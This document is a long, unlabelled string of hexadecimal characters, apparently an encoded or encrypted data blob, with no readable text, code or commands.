3acf8258dcd064ddbf263ac9d295bb0f96f1a58d71d2ab88eb9e50bc03a06ffdf5acafd49fdfe3eaff30cbb76d119b695674c158b6a25ff9b9b7ec752975be70a0f39d54290d9f63bf6ca842028248cc7274ed4d72d0d0264d1497c47e513d7fd77d9664d92a00917b61689bdda40752bd48b53ea96ba044329d44c602c2c8cfbec95b41b9f8bcbf5ef173acf01432024fe96eef04b66c58e723e704ec23eecaa12e3345fd0ee19b0ce28ebaa43d7f4da6fec920811cec996c66b75f36245fe7c8f8a7958a0b1a064b7034a015fe15452d238d1fcd28916ac9ed7ac474425dacdfe39262c51c9b5f4df0c02d5489e5df4ed0f225ad370d8c20d6266c481f0799a7edd6f3ec8abb84bae95501d8074e2974eaa2b91b063172ed6bccc5d662a728bdafe0ffdb86fc45f10b0e229f2a7778d11b862ef327478e72cbe3187bff63ce8ecdc54144f2f6f9b0d0deee4ca4595145ae81bf4dabcc28334abbf8d35971914f1612fc05cea8531a683b0fb73a1a24a8710e244ef23c75500f7c766570a77295cb7e8b595c8084c869783b9a1dd57da5124b9a6698c6c01158741cdba97ea46abbb7c780b439127ec319bf8f87113cb1ea030dbf83621ffad962dbfd9de3810cde6736e360a678f14c08c7eeaa1bfbbb8b014201bdb3740fbb95f261fd422ee03ba5d659075b451810063d8ecfc007dd3011ceb0614c031afdcf72f1ee4b98d4930a839472aa5369a6568510a8b61fd33040e8d6022e59d4261cc2737870c48ddc985103885d838f55b10bc611b6a5b75341956fe6d2faf7daeeef68b150028e035dd81383dd5bf9e659e90204d2ba1ba3518eeb0e2ddf7fd1bb2cdf7a240a215e732529fc894d35b1187846a601f9ca131c8cf1aa4daa404899790a1d99e4a149204c72500b19fdfbe5734f706aa26da4e503c81b053cce3f2213c1fb315057c824f48fa68be5140fe4d438c074551bf09be7710f178423a79ff63e34513faed4c44c9dbd39ed363aed981c970572549829b1f91e05bba84539dd64554bcfdf8c33d27cf6dcaad84e852b5d854805f1d57f3ad029c1df197efbd02a906cba8608ff85b345bfb3f0bd2a22e1d8d28aa9cf2714a2b9b06fd2c64811b4e1c01801553eabe9584ecbcad30fa5c69843bb1b673c9b3d9dee422a39013b36666475fd5358831281377d8aaf73151850469627bfbf5987a32498168b4b50d06616d6134e1875a0be6023d7326d7b8fa4c71b89294cee37bb72ae1bd7db2df16d22bf7cee52d9848a01b75bb373d7088aef8efe10442d06d7e0f892e5ddcd878ee84bf3fc6b52339c6034d486b123dc8f44fad3ff1825fe26911b538db9a179d057d30283f9649ca17ca21ea3809429878c409cebcaa27e16ad6c0ce8fc2ebc596e40c580f0a98a2733d270cb22fe6d74706cda5775e03c58f1b05974c0877377ec7291777072bd0590f862a7bcdb512f32ad732851e120f323428b45107f4b325b37f136050466b3dcc33d2040b28c2d001422e6b8dab1626d319f25b2f0086ef86ee479b338a559b594137b099566c885b1a9b36c9d87150c1b18bc3a681432e78ce0f2b78580babda9e561296be8ca060597d785a73ab73125d309427b3002f1dc6b9392692d154948b9a82c56d0685f5309a40edb877648de70748f2d70bec3bf28136ab7f9f02fd5c4b91b28ac523a84aebc0a0fed0a2fc1fa9e36439097bb849dfdfd23834829c33e08ab7ae9059a19ac3f870b825ca50a61df66f0e9ff9b4d5338eca6a347b18b0307da315d1b393b39ae911763d13ed0761e4535ebfb87774a4f9cf127e985be9fd93aab3010e5e13ba288779725ed4e075d04b8835f7537524e91122cf2aba1e14588b22e114cc59d4b856eda5fb5a12e721560607ab1f749b500b294a7b6b05e2c10e787969b153f9ea210946fe504cba69a48d7b815bdd0f2c6ffb44267925d24536c5eca8cd501798804adf08bc140f9cd77165475b2f055278f87ab8a85c2c0877f7398133440f4b566b2b5a75e298ad6cd3fe7b48cb24808b6f599c6b742b75ea3170a76ffc392fe03b2c762a99e0ebfc0a7000a3bd984cdcdd9cc3554f8aa69b6b9849302099296826cac29e5224df6f2271c48db0ff7527357968fe0d097feff411aa46cb48d58914f9cd55f4e44d412a444d05ec1c5db17ee339fde57dd77bf393c8e0feb3167ef9b0d824fefa06c4a4417df747b2765d6a7299d137582ee499a864f5fe593d3601fd6c05889521dcaca1eb2ecd6222ba8c8a865972c4958b4ea7f9555b2a073faa639da39e03584c5b14ac27b9b9ab7fadcb6d8bb5ea453274cfdfc7aafdd96e5c8508c5194d28793f5c05f1c642ffe333537766b1b164e615602d6ff43cf7308b7676795f5732de2a4ba360bb7bc29c24d2720e5212e1b21e92f01bfa4e867f632fcdbf4f18a3b205d93d33e87edf25e2a70d6d026b83591668a6f68361eb46997f1ceffb12f13ef35d0edf2d28a3273f283332521f3bffed1ac6031bd940437656fc19fc1d64fe2fdc5b003a3e2505c2696bef2c2b5382c216068f3dec749d82e2a02a71d189befee10450136b1a47a67472c82f6112ac4b3034a6d4ea4efe5c17f9adf00b6afce4e7d9ac6a17649af885c74f650eccbfa5c21926af21f3775198898cc0216a1a8eeebd36f7a93335006c28fa2ad98e1a72528619f8b1ab33f5591ddde55d8545557407caf6ff03c7c5c1522c5d9d389c0fee205eb5fb24219bd5f83b019cbdb3f78dc6048c740b115a0c422e17248c966274754e6cc206ff6aacb762b31be6615483af288816d7fee3f0e3cadd66f588ae39f73e29e95fe362fb2c24796c1a107e1b09b650206ba8ed253b35fc216cbc5620ce1f30d504a1046b7b1cc15cd2e2793ae6587088d74de4fa6d7184fda906df9002b1018ad9639696999f08ac7af817adc9dad4e40352903c9723c0b6039ece99ca1d85d6ede0a094f8f9dbd0a634ed6bac7262092991a82faf89a3344bb4700e7867f851e0bdd02dc819204161e1babeb1b99f4e7b5f35e5f5993e68e668262024313e0441da87a83f01c85c2c0a0f257512ee8b6059b8c7c3effccfe9d73521a84d9e4882b955340b5c8f177c4c47e09f295c4a2fdd303cd834b85ca53d0f450761431a700fc608b895bc30c1c37cc03a87bd1865c00b39dfd4d841643ae39a72547f479ee9b93474449c0c0ba6712f03d1f55072004eac79439734d67672dc0e0d24e30d8cbe04140bc4b041a05d9984dd1a60a9979e21c0182f254984e326e70777152d81899f288464682ef79e5044608840475d613ba253ae430833b9de36d28bdacdfb35d34b479559c56426ca708d0b61d9b31a5d467a4865101e627be129b6340602245cbc91ce149edf0e4e271c8e8fc127da11b006eaef4eb4275fdd517c5293f73a578b327438578117ef06fe3fb7967d6a223d9f906eef48df2e7b2d03cb780f3410bce39bf57c8422438b10ba3416706b7be15e2472933ab358d45bd3beb7bd6b15cee2139fd02507e3ff7b3a92d1ffb106dcb6bf546a660c28eab94442e1f1b6fe91433d296d3db2cd019ec3e7213b6fc607ac70eb83304c6830dd76e0b51b09f08b99e379a285890d8b3a6ca23a8e4000ef155542756a20678b9ce594eae5a8b0bdf4ef9c10535bb9adde3b09a81ce8a76fc6c736e814867da3c2b516b7d554ec5a59362563e47f54539c15efbc1aba8b92ba3d5a55ffdeb313ef117efab50c15ffd4590e63aadbdc78a2677b6a375cc054acb23beaa820cbb53e1a38e3d0e0618c99b8a5168ee0a618904c8a0fa99fd635a8dc9dcbff4b2e40e23af87e38e768546d2b6ee3e38a3c63db94f878b64c9ef5ca35146c30c310406c23dd8f34c8ec4ef3a3b82823fe5cc82d596d1135de34e178372d594eb3143400720f9ef86659e1ad4dc3fafeeb216edc8a7f9387bf7bb869c748859ed60382997761fdb5f273bd5820556d774d6bfb3e4e9a4dbdda90b67a73f781e02b6a08504087ef9a552022495d92d49c1083d795b15a007fd072cec508abc42c5c213e932a55a28a463ea15f4e6eea15dcb414f974151ae2dbb03a47ee41189432c35b1590e4d166814973863f51c586047bbbcc9600124a621c8d334e42fdc1430d181ee2b03a508b7dead32a9ed29836845a8a7a8796a56081611e13ff25cd4c5d81599e2216b8628340f0f1ad6174bc39c47739d0da74c9dbfcb6aad43e496cda19d30d9a36f020649a3adb3fcf6d2cfb9b1f529ee44798dfc28aeb869de2671d8bdfc803319587829e1b063316396c6db71f73eddb7d46f95770953cffcb4925e6d7f621d6e08399e73f5bcf87b746673d1c239d8fed8399f343a220b1ccd637bb3192ec10ac6bed2cd4ca7d401254ea2e28a22bfe63665476b1bf764e503b81a6123fd00b0701660de9f7c37e4fe9ca998cd1e7f3bd01b9ef9dc703ac3a80c6d3e01927c57765725645ca0ba94b54fbfd22380d38ec5e6f97457d9223dced51f4240a5a194e6d59dace9f2647d18de96a85f48050f1ee2597d498fa64d47c045620e88367f1b468f3cd8153b63831b7136247a8424d265b5e28f3c118cda25f549cefd7cf2345d181fe81ea91b2f99af80812508b33b0203511239eaac67c6cc2338cac28ada20210a5ec9ba48abab93d4d6cdc0421075745f6785364b93b85425f2233f3fcd13995b2cf59e552379b530a793a53f13bb4a5a79901336a9a13d023b916bf872b54cc2b4501dc68b44b3825ed9d57a44b55e5aa95b7f0df95da5a4defa2c6d0b7255b617e8daa5a59986d5bd89ec741ea8ae4cff038a5abb8832d7e44d8feeffd9e60660ddf2c54523dd929b95f5405678f3d96d74ba5fd9e824860c373e50d60f9743ceaed22bbfbdca461f3da890322e92412b96442dd7d7ba3cf465fc6aecf636cf710654bbbd82ce31ca02b149d4b03077201d9c3a628a0b6beab812e26c7c656a6d60ad23bd836be4ba8028f0af5e1b9cabdf7a3e850b059b818bc29030620af13aef152710adef9aed8ea88681bd9efa9e6319869d0d3c747ed169f31742713c0248706cc1b2a406d84fb77f95687379bc857f25e251b4526a49c76b482780880cceb2a1546c3a99cff66820e57e865ce4d17a50b0fd5649bb1cfddb8c2428be5a23e6858fe13885320760a45a4647f8e4edf12e1ec55dcc16260a903a6c6819aac2069b4747f09e4e7b35f7e938f3dc113ae4ed82ee43a7b8cb1107f34a18fe371031a34f3c266e232a0557f185c9db0fd41b6895db48c54799af6facf052d18628668c6b103e463663046abb9481cf278c0048a4fbb4002ffa7467e9a5e41244a24d43b81649784e1ad1606f8a30910da5cf0aa7ebc86f016aecdfd66a6f9bb979ccf410c0be84af5fdb87e96b60d93daa2ead573626a7704589bc29390bed4b349227baf66144d354e24ddd9723c38d1267c0d7c33975c6d6b96c4183ef25c812d03605d7d3663adfeea0033f6332f5c2ab823663455c1c5ae6a819122ed1079b9f0cb8e2dacb0e3fe142d40a840d733763c40d8427ef1586f29c9949b2617294fe29ef061758c0bf1912ce14a829ec5ffabe130e99e906c101d890a7b6bdaea832a240a4c8aea5acb687231a315a56d740a5630f91fe652e0d2333a6659dfc8ee805c9924ebef34e23eaa45c131ef10997dfb81ccc89fca5d876d45f93aa5b9762c3d96cec7e0e9e1287243994200c6fdbb028dbe2a7821832ca1da5ddadc13dba83544c9e1b21e04deb39f6630c79cf893b487fba02ab9dbcc609b2932bf0b5405d05d95d5ed2d1310a85a9851987585c7355af7025f59da593949ff318b1deac3c70389bbbc4f224e497b6ead6301c53b77d6f7376afc030bfa6f71ad76aed21fca6eb1107553d98e39caf21d7ace737af8a1f5f5537cd93cd636c951eb00fb2a15ac37ea3afc4e3080cd618ca9d508ba10b6fac77ad59535e624ce9988456c424841cac002275a93bbd9278bda714665c70ef625381a2d8a2641f840df24ee8cff3ea06a89afd1c08813b7d72137cb01590b346e440c6764f65e5b6187f86a5eeccbe8a0fe98dfa2c0ae7c2b636581dce10ebf4b643e161f4c759178745dd99232170d66f3ffc98367c93f62878a1e1eff95ee2337624036ee42075684f3752792093d1858b3389105c8d5f8a0678314bd623c320d00ce76aaed822874c34e493856c6b75947d91dd039f0cc88e5bba93502b20bcd92af3f3f91102304c421e2bb718693bd1b3bd729153fc0611e7eb1ac4bb78dcef1bf57ac042afc84796be910241754e950cbd93d9d32f4b432ed493cb3beb03a94a42af85e171614315cf1270b1a57ee4352ef0c19d881adc3c7122ed08cf18df4835cc4aae0848c0dd4c14d02675827c280c76558648947dd0813edea65ba20252a0d4c2167979932f605372a12ad3dc8b1f9a5759a9f485fb7b27b17efe28f00c764a54c359658756e8a5004bc9a5317fccf19492486915e44452c831f185493c80b086f0e9081c171fb24730ababd8d6fb971d1fdbcb7a21da5f09137399a2d7bbf8e5bfe1b93a534fdecb2a68029d551c1e28a5d54fda0300f0357f6cd418dc58ab4c7b69a5b3a92e380e93a9eaff054a1078191e781ff2f91c5e884b6bad25350d2f5069534620d496333f4296b05193496694e4bfc5427d0a9c2e3f8da718e35e97e07cef864f7e5040a2e34e216746e558b5ff3c0811eb5a84b50cbeecba768813e2b3fc15b5805326bbcdac9001458f97cfe7e8a85a30becf0e97c8290dd628961b37561b034ed5033ba94fc92471d50d95389ca6000691da892959c8bbe9a96ceda1911a36d849cc04da4504c9a651226a08547bf782f68b0730ce959d1686a92c10027669b724836c0b7222a7248666f94efb1f6375e2e28f6a16e335bd04ca5bc5839fa433b222279c3ea3317331c15f49fc63e877008f10614a6bcb7c55a96e99b9ead3b5f1813c0931ddc891b56c911efb3696c5da0ee831a66c6570506a540c7337b0948590b568cb6999b9d6382a0725a353de728541310431aabc0563d153e184381f2ca3add6b0397786e26ea6d665da01225eaaa9beb480c3c0f93422cbecd5c2beea56bbdcd7b3ee188138d16004c626049d1ab4c6de6250150368d5679b7dc42f9ccd3b9105010fd9ffb7ef5e0f92ffd6869a4eef4fda7f77b26b5dd8f1ed8c692d1f0124d772f1217cb84f6088076337b6b5ba244352297a560aa0bc24a380921d3662b21d4b2b612cf2caacfa15c0dd33d7e945fd6447d9cbbbde72b84ac5488df23c32efe8f0687d4085390697f31de89e8d61367e7d92d1bd326701af677a55dd5a1595bad4b3efb0eb7a21b83f8d48e6aa221faa1b6bd23a9a336ab25b433e4a4d319981deb22df1c9ba66ba40062c3edbaf79dd623f5dd1ca77ac2db46aebd353295f183db4702119d5c6d4f7d01b324be9186a4a5242eeb1d9a005d0b2f3a8cc5d8b3d6ac7f9c1e81d644b674618f6640e4a2f17d642074641fa62c7eb0fc7e67727f87865e798876cdd5e959f256ba85b81fe64bd7c5f7fca00634b287afd60863be92c10b290ae3f7e9ac9ca28e80f7be5c6e3dde35f9dae6a87d7de3f02e882b0e68095cb006716d03d1aed21762e92a3a922e5aa475aafb81df529f6995245b38014bc3bf25ea2d435499900c2f8d28e0a23acaba02a0a9c29aaf2ef9fa613d0cb26ec836e4e9aca657fd3c3f19bdf79146624d4de3d0da66cbcaf5bdbd638ade3f8f3b1a887f91f439054a478b3b5b83352879ea8f7d51237c54f487da0ed6273813ecbdcf8b598a28039d3160564f93185c62545c0a19a9c488464080c9051a103fb4365f810b74314c329030f9b8ac53627dd453a985ee690f881915a1faa51b0e0cf3b092db7010fec17f6ab9ce0e8fa9bcebc63c311f7a3a50477f36e5118624323c9fc2e1fe6f147077ae2779d633abe4b7d7495efe5de90307ccf71b8ad13ea9c861c4f0d2b2553462248f6d5a3fbc2f862e64baeeea14865f95a148a0f1104b7adef3d971cd7b043cd94ec45ef50c49ee6a701314c2f27d381fb2c0bad964bdab57790a535782994edff4ff8447276d4339ae8e27a9ef3c42a2a391be3f6e1a7d1612ce498077353dcd5d665e9333811113fbfd6ce642b8b162f9f9e9fc313b07f97865eea811af9e7ea451a385583689ff10dd3cc34d92b8ead0bf4de52843fadd2c21aaecd90e92747b04c7d31c95eb97bff0c7c4890dac81e53e65d913780d547c6bbd77fe17a41f2cccb4bbb7f886aa510869af37d1b2be4cb0cba91bd86515bedc91003476c4fc11b51e874511a0d3ac9938e9b7ea2ca0ab5106e82aecfdb4ef81386215392acf1dbb39cdf9ece41ef22e8056aa9367a028ce3d197c87e9077de7fd2918043fc05e26224659fceb31895f1578a66d3df9918a29f1dea13df981a4f5b65b132500aa5602240c7fc67fbe47e36e4dd00df617b0d56467a573ca74fdef3e79a3281255b148377bce814978e9ce9b7946fc06f7ed7da3d7b15b61aa6b7b11df857b45736ad776821e78ab13cfeaa405ff27ad6f7949d77a79dc7e2aa079f3690f2104a3fe592a0ceea3782f16969e3c4d279642c5247840a8dd138c0f092f86425338af09be261bdb7eb10b82edc3138c77b4c0853dea0851f801e064f620240e4ba70ad0c8787aca0cf255903febac3fc857b8c2eb55f460aa0b4b4a2671270be35be50e1260cced7889a24b7bb52b3f85f947f103ec74cde643383cbe9c6fd5231a4e1805ac80650c918290174c34ff6833d44ff1f900d62b07965306f69a9422f174f89240e329a3546e970b97ae4f44364dae1c0d54871a5ad5a3d297b1a8a2f38afb4647ca503f74c39f9cdf81b453fc9128dcdaaa971855a78dbf847f9a79b4efb77e1c0edbce9acc66be6a70a2bb7ca025cd605e10d28005a227a0a1f4728e596146fb866055acecb37e1dea0ca97ae8e829539527f54adfdcfd83f68b0bd1483a56c223873b857589e9476b8dbb466b38a9b945cb8a1fa5d7fd6c30cdd19b2f624d6d9323cef52d86e521ba33eb71ef5c4acbc506350217318ecbd7d31f8290e19e43878adcf279fdbd0290c88573f5b63f5adb8666c170ed2c850986036bc64caa004eeb87302d4538d8755d9b0b4fb89351ffd287162f28351df088a14d920e012c290269903d4fc45ac2361951c8073ed5b813cb5650c719e9dadcb15ff75ecd3ecf64cec9b202065e1e76b963b7f95f1b2c91b3da982e14059695290e92a3837f44eedc4245e0b2954a3b4c061ab8a6e664a8ee5c4bb593db9763549fa03279e6a3897ad917193fcd7dc737b14853a0b6abde58706da7ce1b7fda8cd250dbb436c957809bc41728dfe7638fc77df755b6605b62aad3e69763a9816175eb38d44e27a1c9c1e8b4e33e60dde0c646369d547ca1b80aae3c5ff3803468b4e0afaa9f92efb0490e8452e90753ab68ef8a7c55c7e6fb8439e95b9901436f86211c8d3d18c6f223e812214ce32c61e5bb2b788515730b34d574e7055ec5f7cf2e2754c6be7322ee232638148dbf7ccfab4f3877542aa42e43c0220d02750895cbbb61703f24dd0e928f4196caacfa4a4a78a91da325e9cc1610d77c8b0b973d15a0f5fd03621db00bb784ff8e10d14efe2175b33ce5014f33db6a1f6815c5dd5627ae32dfdf40d1ebfee88914ddd04f54fb60e4cb851b04ad0e244b15085cbf2aa28b11f97e0449247efd29846c4c3b9e84dbdec20cb69be65f50907a12859e4f9bb12f0bca71342e34531ca7d459cea823e2493dda48cdf88cedfb88c339a3357d1fd193cda501d13eb92cf5bc811feb62535c95270b17eff16591fbbfe43a6866df27eb5212d5cfe238275dc6894bb9380e49ed6a65f4971872bd50ab6a116726cc04d00bf994378cd223a277690d7d12e9ba46cdf2900ee318a0c63a761abcccd908884cedfe4e76870069e403edd564fc5848055cc2f50a3116409ad79495f9e41c72623e3dd5a2e9db9b919c883e2d40a50b5034604b533d46262be82fb3696d5e3f5a5ec50b6a842b6c3d912bd7826ed6d1da0b412f4684c829666f6c8a62d54a7c400d6e7dcb78d8cda94536d93c219b349d522d9ef4cd2ba474c1ce743fe6573abbea3f984c5c84ec36c271d77c33bbafa91fa8faed4fa840d474486bd8caa992a0627d1a07200833cd15454b3e2f102306dd1f85b994f8ae1491c487e17f37aedb28716da6673448e2fd8611f9bc0cd6776cd930abced5060331ef62b2f14f60c4f4d2c50dfb5ccc8f2003f9297791915021eb8382ee2c340479d08437f87d3831d34850670fbe8d905205f25590280507512a6cb155d60614338c5fe2027f69f0ec9755b24d843acb4c209b54a8953c83f91f0f75928da36708746a995f504011d32281b8f3fb3730835fce914378d29ac91d993990fe45e24140f7e5cc49539b3588d4962718892b9a6ceeb178a71931a95800ec35daaf7c5f9431195feeeb59feb9724be4a32e1cee7cf08e4e43f0c080f4b46c65faae0190029334f296a60ff2edecd4dfb701c29fa2013fd05fce152cac7d7ed444fb52161a6beb6e0051d62d0a2a7d0b98c8f69a9bbe5bdf4de0430cd0697fbcf2879ed12fc1117a6d7bc46e5f193044e43796bb7bd7cc9e05d680f6842e8a5709b76e0d3c45c65f766da0e9d4a54fb279c2e7d8870690af4a10c6f64fc2aa629774632c22cba10c4d198602a7ea53da5080fa3a9fed5b00c14211b411ed5c32e2f46b9eeb2e0380c9f82a1be73f98e67a232744a056c08c96c19fc13abe930dbebcf74c4b06c384063fe142bc740162565ea3da003b72ec528025dc07d5bce1df6160518df2c8eebe6713d1a9a201b55ab2782d6dbbb542da2ea4579931be02fecb73c8ba9dd58c9c444bb491cd59f8439aa77ba2a443df7aa40c43b895349fd3efdec4dc8ffc42317477b69387a5db994359456959b39ab12fa04b84f0327602178eff6e58cc5338abd36566ef0d211f24d54f39593cc02869c817fe39800c5ec85f6b2541d3ec4349a805e8caedc420912fbf4bcc68d0a9ba69c64864e6d181faced5422603a9dae1902180d1d0f670557b7659e97a89288603592a1f46511decd8d00e95558bd70c5749a1d3091aa639eeaca34242d8221132cda68d09422e68bf769aae91ba4a9de939e64caf3b24ca95a9344c4ab4f6d938cc1c136a9ea482caeb69d50d539d9c3340a29726a8dd54a82acab84362b090542b43b81cb7b6b35fec085f270d347ef8fd1049a3863a2e957db59a08cd4c4c91ca88544c45259882c3733ae46e0c457eb4307623ae930093fa011127bda86e33853516613184706e0ea5754e79eea690b26ffa1ea3ca42cc6709217e4c53fa60ecd56318b930a69dc88744ee3f4ff05150a160501a1dc702db475fd7f29098ad5dae1c53b6a9a1cd05ba0ead56a25201eccce10d2f022705afd0e3f266efdf5eb6113ec9a23e14a9e49f3dd58a334c18086cd4daa2f2469cc04d4fab7c50b4e1bb194ec86c8e160e344ae49081d4c47c8d55d299e1ae4940465f4365cc8e415165a7d21c5dc35f430677541590a0fbd3122fa5f1c3d9f7bb9c260ef50ac2b14780414429884129d1c363fbc6a5db0a882cb64f03405d1786fd7a87d0e65f84d584268f85bab1ad81708677d0cee26b3759e32bc1825b5bc2e0625df2e4ad109057d54f9944f46eb03fd8f5c6e0b85611424c48a8a6c19a115d10f7aac93c5a208bccf1c8ca37ee80849afc4168822f911e082a051eff4a7a112cec709769112a777d7470d6e5751ad2cd7d20beb98139326eabf2c31a403486120de156dbe1780c8415e62145cb5e13ae859b30ad9b2033575d349c792a1f4de05e37175d3ace563c148b3090cabca40a972681ab6ec6861b9e54981ad987364da539d8404f826ddd4dd099f09a18a080ccd44f87ea11f86ebe900462aafe92f0f1e29b14f0dc978522b576a70d403bdfb12d4fbf45975879035a29c9a79eb450644d8e306ff07cc6b9aaa81ada6456d85880f17dc5aa75561516fdafb6ed8286a3520407f35a1828a0b39e391db21e99e6a72525d46e6c0ddc7cdf980971c8a1a73578a1b928b591155df2b480df794198215a6f80ab56d98bd12a409a9a43474e7bf43d987692dd99690c9e04390cbfe73bb1106275206e57d1223d0d135eca65673c252f392e755f9b5638f9434a6207e8cd8d85c78a82226642f755449a7b45b8c8755b36c9ea4a52fbaafa8e3adcf252cd34143966229202b4a68e21970eba70048db7596d60adfc59d87b17b3b5d2459cbc9679707a5c300960ec45a27edd557e9eae68a9e8688b04d6d4f764d5a21c00729ad5aaa562213d4ddf8ac8324d0cef4377a27542d2d55404645577e0020582f4dac6984bcade45320bd696d207ad3c61dad7457ebf081705cde6ce96f8248257e651e554531b8718115ebf0cbaf6018a565b50dcd82f0abaf9a5f68d9e7c4aa3717ceb0dd0ee80b51e032f0b64fb2a2f1bbb6afc0acf064edd1f4167bdabf56f0551ef94c04aa915e1b7d4e53b2b69becbbe8fa9ca32885f466e0e30cef1dd4c7d000b2720624f624ca8006b504202b1c153bc9a5ff61bc7d0bd6e51bf4252d8de260dc40fe29156abe9206c80838112efe14c89763fdae7facd31bb2242b1953caff78aeb4d985e25212a6083b241d782ced59b67cc9db64bd0e19276f5c4c26b3bac5db94c178f1cf9649cec356eaf7ff08baa5126c021a0daf9069b7fb1d5bd9bd44bff656d393d5e08c52518b03900a9e748235c3354b4b81ab58eaeeb3a0c55215fa0a1ca2c99360b8cbee02a3c5cd603d3c99eb93aff10f845adfa00cb59b879a976107a1f9671fa39edc0abe2361a52183099ea4fb7c0d67fa85d57c4ec073e24e72b7e23b58e7913c814357addf9b85b3ce1430884d20f96f82132cfeb94820943c5c9a76fde09be34e1fbf7a14975e2ef5c87427a1e11826d0419cb0a5dd3c6ab25e6aa6fa8212e543b21eba33a54f224bc1970eaef9961bcadb15b55f50a6db36ac1a592e65b32fe4bf030669362026192f1f22ee470e1ea305e0c8faac125c029e274bf5bffacf92a3580b4790abe1fc93b9ef45eda81a6767da0243557ae92414d734d89c1e3fc93025cf1ecbfb76ae62230c34b8effa285dd7a66a9471e6bd34fdf5d7c8027d487537de979e1aa8ff185055f6cb0af2e132199b7c9c15bf189a576ab6f80da13025c7a6ef738969362e2ae494e914f12ba9aa22aa531e19f9d620c5d5efb5ccc0ae12630890eb0dc493d60a8a08a78ff09dbad26a9f2c418af83201683ba370fe8dc85768cbb2792871e1f51420b2cc89620e428a860db4b92c55aeac185b3d4cfbad92af63455386f5238458f88fbb5e481243a4473ace6ca2c164e8e43abb2b56cc90918a0b3a033862b203f52ebfca03154563d34773a5810659d864ecf60cdad93e02ceb6ffbd276b83ce01409f510154025ca5b5f0ef529eb25c5b47d5243e37f54bae01fe6fb96ce55fbb9bc9a650c4f9d3304fd11f180cd8de6f63f494d1cd9e7c0b3b86e17195ca162aa59d20c9163e1fcca2a08dd492445d91ab8f4c8c5c3f430362b0826eaef8c571e8c7394caa1f2d1ef6d62481202e90e8ad5024d89f270a4daa4553a68fd42a2ff0f11283209bb87b829a2b71657c1a16e759e743e7dc2c1b681bde6d5be93fc892f5b58070f718b130c88c0e7a9f4458a461602dae88c3580767ade837b15e2ece6c7e7712acd4ed7f53cc32668d27d4e992176c2e11e1e3b55be20132ad23fa3d04e2869328d29b46757ffe1162fdfa4175f609e1d3240e4f26ab2637027e43812a038cc91214fc743825ea19d9843802f611a20ec61826b79d0832bfef378066f2a612ee1c58aacdf1cd2e8478156732d01a0147492242accbdaa556449dd45510c81392ca8027fb8d031e981804626fec0c43de15d6f0163148a41345b554ec1d59988978ad6038b22314e5b47062f060d3946102b7ef0467a8bf548033093ee6f71e088c5798cf39a2540b40108b6331900a0d9dfec1487b07f53051a0637e470e9bc5c8eb9bc96772fa52e9fc6bdd34c31a84e4282bb66b83bf62e42968143becdc811a11fbb76a38271f7a8f959bb3809d77636ccc0a2d106f59358a4d3ba78f8e77f70789343ba923a7e61f67e7ec81d4dc567517eee4c896b9abee25418117241aa6ea8223d78ccfd75279869957268f4745c2386f152c7fa0a398b31b90d40f3523d4e1da637a9c9ff9b7b1ede8d8b83f5bb48f3643481386c4700359ae6c67498e12f7bf6d3cb1d0ffa307f7991d57c60b4565571917c4f99605a52716f880ebb8fcd12b2804caf749fce61716a073903c003d27b069b2084d38d1297064e114d99e9d1202de2236c4f9f4fa88e505671a0af16726866d6ab35df004a436cb57185a6a9a007a54efbe09ec48d692a0e72a7d6eb717a76387e84cdca1c1277e446fe5cf4baca449ff1d5e2feac7670871619f5e465e77d570a9db57d49f09721ac0912c85bf306da3f590b3e4f314a53970c1a389858087b11f2fae506ca4e4e27ed05d04a6c28d8a7b5b41c559cfd5538837fb3e3eca35186a5caea06f0882f3db90d1b964c8782c32f1d31cdb16748c31ed0ace8f75b04317563ac579ea364285c1e69a99804757b965250023d6928cedde567783e331c8d7be733ad59122e068b397fa60e7194444435aefce285ee1253c41433ff894d5627fc3b56de0ade3530d01c001db90156982c6f7cfdf7a558b6aa5a9199b1e951582476d4be86f30dae43e59580971e30acbd55fcbf55cf1abe8d94f6d6e52cebdae753ca0fd8f1de2301c5fc004389068f086a1166b87bd24230a84f94e467e3ff94bb49d37582e5a5e2397819a06a26271887b240c4124b614814590c281a57f7cab60fd9653b1fffccd12cdfdfdb5fd23ce51d7077a73a7f72d7a5ff6c79ffd52ef7389e75ffd6d4ce068c5e3c6b4ba45cf6f5c05944da9a28ecbcc17cc8f2b05ad44b981ec7ef98aba1c6df61b1e3f41634138ad0b78958b93e7d50972ed9c9bd4f7ff162640c175e3f1bc4b4e0a0bb59f3f31134fbd81794ae8115fdce3a1044b56f59a2236963980a86c5488517f2661dc29d810e8cbdf7ee9ec09c4f58e9d0cb44c0e2fb7847b8a0561c0fcf2fc7149e04db97b50ca3fd66bf3b89fdfc7bb4d0fb696f86ba194bcbda44f0e2d3378061daa740aa87a2b8020f21552ed4c817c485021ce720daf7a8758972ef51765480825f8ae1cc6d6d790b1af76f8029b63b5ec94f013519cec5b28b848e716106ffdfa99a8c82d52278d364f9c7f58262f7915fa75ce6ca1798314d39e4d4b2b22087df6b47d072ec20ba95b0bd0bd182687c33d6fbcaaaa714dec93957f427e50da2f9b9ed59d3549ceddafa4c0bb8405541380f885b08b3870a994995782b0b2f59c121d20b9a49ea256e5bf074614ed17e116c4d74b7fe3a116f7e6d0d044985d6f8430d0b4731e296d7bf91877f8989997e040adcddd73861bda31c3cc3fb003ccda38f7f09c9563e3e15aa9f747c018713901fdfc5e1efe2f741a36e1d513359679350f2f48dffcfbf2f848a0e882b651be81c0b1233ae83563ee3129b2eaec90a68e2d269eb1a6e8bdc2dc079f184bb373af97265aa2b3d58f5483757c51b54b7e14e6413e65a6baf6aaba1962effa2032e4fbeabaaed062c3c201776a7ef8a0faca0c2ca7f4d55ec18f8abe2ba9bdbe57210fccba1af02ce3f90405fd15b6cde15ed66546eed752ff885d68ff33dba1bc689b19cf94a798e46e4af4504c2ce83300e46467807791a8b3a954f47338e494ba822441044ffeb9fae1a113d05328fd91ba5e2b85107c73c5fa8b83bc1654715727328c8633293026e219cee618a3aaa97c6ea4930feccddf397023055e0d09c137d72bb9a22b198aa9a78ce0b6dfd7c7d787d92f4ecf1ddd7a3bd3596c1fd84712af6480dc71074ff441f1511944b96a65f8ff7bf947c01e75afcfa9917d8df0cef4aac22e68480d4c897fbb1ebf0b24fbe7e6c689ccf553699d1c20d609215a0d6fa8c02780160eae5303d71e674c7e6beab7d83713456c935c8f5a2ad19adb9c52e61e7679d5f07deda34480eda6b756491b2c43fd2062b1e3c575db82f6a45b45fb3fc28659b21192adfb6fd4625be17a9b59b3ed3652574141dd9cbec71bc7b93d0a3ab21d8dd98ac8d22e5825d0d81d39699485406d3de65d02f6d053e6f2b1066b77dd9cd899b97d09496617b85eabd2e0f631d0e4f8473174f05ae9418c4eb3348a25d9131f18df89996b9745df962cd0f6